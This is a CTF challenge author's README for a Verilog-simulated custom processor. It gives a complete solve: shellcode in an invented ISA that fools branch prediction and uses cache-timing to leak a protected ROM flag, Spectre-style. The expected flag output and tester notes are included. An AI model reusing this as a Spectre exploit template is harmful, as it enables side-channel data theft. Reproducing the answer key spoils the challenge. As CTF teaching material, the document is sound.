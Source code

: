 ## SOLVE INSTRUCTION FOR TESTING
copy paste contents of "ram.hex" into the prompt. </br>
The output must be something _like_ this: </br>
```
WELCOME
b 0 19 0 46 0 46 0 46 0 46 0 16 10 cf 0 1c 0 2d 0 2c 0 a1 1 1d 3a 67 22 9 0 3 13 8 10 3 c8 12 23 19 0 13 23 12 f 19 0 13 f 12 38 2 38 3 13 8 0 00 00 04 00 0 1 2 3 4 5 6 7 8 9 a b c d e f 10 11 12 13 14 15 16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22 23 24 25 26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32 33 34 35 36 37 38 39 3a 3b 3c 3d 3e 3f 40 41 42 43 44 45 46 47 48 49 4a 4b 4c 4d 4e 4f 50 51 52 53 54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62 63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80 81 82 83 84 85 86 87 88 89 8a 8b 8c 8d 8e 8f 90 91 92 93 94 95 96 97 98 99 9a 9b 9c 9d 9e 9f a0 a1 a2 a3 a4 a5 a6 a7 a8 a9 aa ab ac ad
b 0 19 0 46 0 46 0 46 0 46 0 16 10 cf 0 1c 0 2d 0 2c 0 a1 1 1d 3a 67 22 9 0 3 13 8 10 3 c8 12 23 19 0 13 23 12 f 19 0 13 f 12 38 2 38 3 13 8 0 00 00 04 00 0 1 2 3 4 5 6 7 8 9 a b c d e f 10 11 12 13 14 15 16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22 23 24 25 26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32 33 34 35 36 37 38 39 3a 3b 3c 3d 3e 3f 40 41 42 43 44 45 46 47 48 49 4a 4b 4c 4d 4e 4f 50 51 52 53 54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62 63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80 81 82 83 84 85 86 87 88 89 8a 8b 8c 8d 8e 8f 90 91 92 93 94 95 96 97 98 99 9a 9b 9c 9d 9e 9f a0 a1 a2 a3 a4 a5 a6 a7 a8 a9 aa ab ac ad
b'ERROR: ncore_tb.v:100: $readmemh(/dev/urandom): Invalid input character: \x9a\nWARNING: ncore_tb.v:81: $readmemh(flag.hex): Not enough words in the file for the requested range [0:255].\nWARNING: ncore_tb.v:86: $readmemh(ram.hex): Not enough words in the file for the requested range [0:255].\nxx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx xx ad ac ab aa 7d 21 65 65 6d 5f 40 5f 6b 30 30 6c 5f 36 69 6d 5f 52 6d 5f 4d 69 5f 49 68 7b 67 61 6c 66 8b 8a 89 88 87 86 85 84 \n'
```
The warning/ errors are fine, the **KEY** thing is that the flag should be there (somewhere) in reverse, this part:
```
7d 21 65 65 6d 5f 40 5f 6b 30 30 6c 5f 36 69 6d 5f 52 6d 5f 4d 69 5f 49 68 7b 67 61 6c 66
```
## Details
Compile with: 
```bash
iverilog -g2012 -o nco ncore_tb.v
```
Try this program:
```
MOVFSI R0 R1 1
INC R3
INC R3
RDTM R1
MOVF R0 108
RDTM R1
MOVF R0 110
RDTM R1
MOVF R0 110
RDTM R1
```
It shows how cached accesses take 4 ticks, while uncached takes 8. I think it basically works, we just need a solve to make sure...

## The outline
Fool branch prediction to speculatively do a _MOVFSI R1,R0,IMM_ (which WONT get executed, otherwise you lock the core) now the result is in cache, try different Xs to load _MOVF X_ and time them, if it takes 4 clock, X is the value in _SAFE\_ROM\[IMM\]_.

## Epistemological Commentary
What does a challenge measure? How can we measure the skill of shellcoding? Say for a typical pwn problem, we are almost always measuring multiple skills and knowledge: familiarity with the underlying arch (x86/arm/etc) with the type of vuln, with the tools of the trade and so on. Then a curious mind may posit that we cannot ever distinguish a skill in isolation from other knowledge with a challenge. </br> 

I challenge this assumption, what if the ISA was not a known ISA? What if there wasn't much tools could do? In this challenge, it would be rather easy to find out it's supposed to be a cache side-channel, it's really so on the nose. Next would be to hatch a plan and shellcode the idea to fruition, with no known ISA and no specific tool able to help, it is kind of a pure challenge of shellcoding in some made-up ISA you just saw. It is not easy, and prone to mistakes, but give the verilog source, it also would demonstrate the value of debugging, and the tool is VVP/IVERILOG, not something that people would usually be doing in every CTF, with an exotic ting to it. & finally there is a cool factor, because of all the hype SPECTRE got, and hopefully people would come away with a sense of accomplishment after solving this.

## Solve Works!
It ain't pretty. It ain't pretty at all. But now it works, the following is a solve which does spit out the flag: 
```
FLUSH
INC R1
// fool branch predication
JGT R0 R1 0
JGT R0 R1 0
JGT R0 R1 0
JGT R0 R1 0
JGT R1 R0 16
// this will happen speculatively
MOVFSI R0 R3 0
// timing loop
RDTM R1
MOVFU R2 0
RDTM R2
SUB R2 R2 R1
MOVFU R1 58
// was it in cache?
JEQ R2 R1 34
INC R0
MOVT R0 19
JMP 16
MOVT R0 200
MOVF R1 35
INC R1
MOVT R1 35
MOVF R1 15
INC R1
MOVT R1 15
MOVF R1 56
MOVF R0 56
MOVT R0 19
// moving on to next byte..
JMP 0
00 00
04 00
```

## TODO
maybe clean up code? and add more verbose overview.

## Tester notes (written in collaboration with the author, for the purpose of the CTF moderators):
This challenge combines easy reversing of Verilog (we give them the source code) with pwning skills involving crafting shellcode to exploit a vulnerability similar to the SPECTRE vulnerability. I didn't actually do the reversing and the exploitation -- I basically believed the author when he told me that it's a reasonable line of logic from the challenge description, which mentions that the architecture uses pipelining and a timing clock, and also does branch prediction. The idea is to take advantage of the branch prediction logic. There are two user modes, EMODE and UMODE. There's a boolean register that we'll call "emode", and if it's 1, safeROM can be accessed. According to the author, if you don't have access to the privileged mode (call it "EMODE" for argument's sake) you shouldn't be able to access contents of safeROM, but if branch prediction mispredicts, it will bring stuff speculatively into the cache, and after realizing it has mispredicted, that stuff remains in the cache. So the idea is to put things in the cache, switch to privileged mode, and execute them.

For this challenge, in comparison to `n_core` (CSAW Quals 2021), the user cannot switch to privileged mode. So you as the user make a bunch of jump instructions that are not taken, then branch prediction thinks the next one is also not gonna be taken (but this one is).

In the wrong branch, RAM[SAFE_ROM(i)] comes into the cache (sepculatively). Now you have RAM[SAFE_ROM(i)] in cache. You can try accessing different addresses and time them. And one address will be available faster. which address? SAFE_ROM(i) So now you have 1 byte, i -> i + 1

Here's the paper: https://spectreattack.com/spectre.pdf. 

There are now like ~15 papers all doing this stuff in various ways, but this original one was an eye-opener.

The file `disas.py` takes the above and implements it (in the `assem` function that is), generating the shellcode. 

The author's voice here:
`disas.py` is both an assembler and disassembler (for debugging purposes) and it does have a bug with 0 bytes, but this is what I used to assemble my shellcode. Probably every team comes up with their own tool with this.